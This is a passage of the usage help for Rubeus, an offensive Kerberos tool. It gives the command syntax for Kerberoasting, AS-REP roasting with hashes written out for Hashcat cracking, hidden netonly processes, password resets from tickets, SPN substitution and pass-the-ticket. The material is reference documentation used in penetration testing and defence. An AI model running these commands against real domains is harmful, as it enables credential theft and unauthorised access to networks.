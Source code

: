 ```

    Perform AES Kerberoasting:
        Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]

    Perform Kerberoasting using an account without pre-auth by sending AS-REQ's:
        Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> /nopreauth:USER /domain:DOMAIN [/dc:DOMAIN_CONTROLLER] [/nowrap]

    Perform AS-REP "roasting" for any users without preauth:
        Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

    Perform AS-REP "roasting" for any users without preauth, outputting Hashcat format to a file:
        Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/des]

    Perform AS-REP "roasting" for any users without preauth using alternate credentials:
        Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."] [/ldaps] [/des] [/nowrap]

    Perform AES AS-REP "roasting":
        Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] /aes [/ldaps] [/nowrap]


 Miscellaneous:

    Create a hidden program (unless /show is passed) with random (or user-defined) /netonly credentials, displaying the PID and LUID:
        Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" [/show] [/username:USERNAME] [/domain:DOMAIN] [/password:PASSWORD]

    Reset a user's password from a supplied TGT (AoratoPw):
        Rubeus.exe changepw </ticket:BASE64 | /ticket:FILE.KIRBI> /new:PASSWORD [/dc:DOMAIN_CONTROLLER] [/targetuser:DOMAIN\USERNAME]

    Calculate rc4_hmac, aes128_cts_hmac_sha1, aes256_cts_hmac_sha1, and des_cbc_md5 hashes:
        Rubeus.exe hash /password:X [/user:USER] [/domain:DOMAIN]

    Substitute an sname or SPN into an existing service ticket:
        Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:ldap [/srealm:DOMAIN] [/ptt] [/luid] [/nowrap]
        Rubeus.exe tgssub </ticket:BASE64 | /ticket:FILE.KIRBI> /altservice:cifs/computer.domain.com [/srealm:DOMAIN] [/ptt] [/luid] [/nowrap]

    Display the current user's LUID:
        Rubeus.exe currentluid

    Display information about the (current) or (target) logon session, default all readable:
        Rubeus.exe logonsession [/current] [/luid:X]

    The "/consoleoutfile:C:\FILE.txt" argument redirects all console output to the file specified.

    The "/nowrap" flag prevents any base64 ticket blobs from being column wrapped for any function.

    The "/debug" flag outputs ASN.1 debugging information.

    Convert an AS-REP and a key to a Kirbi:
        Rubeus.exe asrep2kirbi /asrep:<BASE64 | FILEPATH> </key:BASE64 | /keyhex:HEXSTRING> [/enctype:DES|RC4|AES128|AES256] [/ptt] [/luid:X] [/nowrap]

    Insert new DES session key into a Kirbi:
```